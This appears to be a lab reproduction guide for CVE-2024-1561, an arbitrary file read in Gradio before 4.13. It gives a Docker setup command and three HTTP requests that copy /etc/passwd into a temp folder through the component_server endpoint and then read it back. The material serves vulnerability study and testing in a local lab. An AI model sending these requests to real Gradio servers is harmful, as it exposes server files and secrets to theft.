


Gradio Arbitrary File Read (CVE-2024-1561)¶
Gradio is a Python library that enables users to rapidly build web-based interfaces for machine learning models without writing any front-end code.
In Gradio versions prior to 4.13, the component_server endpoint allows attackers to invoke arbitrary methods of the Component class. By abusing the move_resource_to_block_cache method, an attacker can copy any file from the server to a temporary directory and then retrieve its contents, leading to arbitrary file read.
References:
Environment Setup¶
Execute the following command to start an application written by Gradio 4.12.0:
docker compose up -d
After the environment is started, authentication is not enabled by default. You can access the application through http://your-ip:7860.
Vulnerability Reproduction¶
First, access the /config endpoint to obtain a component's id value, such as 3.
GET /config HTTP/1.1
Host: 127.0.0.1:7860

Next, use the move_resource_to_block_cache method to copy /etc/passwd to a temporary directory. The response will include the temporary file path.
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json
{
"component_id": "3",
"data": "/etc/passwd",
"fn_name": "move_resource_to_block_cache",
"session_hash": "aaaaaaaaaaa"
}

Finally, access the /file endpoint with the returned path to read the file content.
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860

If successful, the contents of /etc/passwd will be displayed, demonstrating arbitrary file read.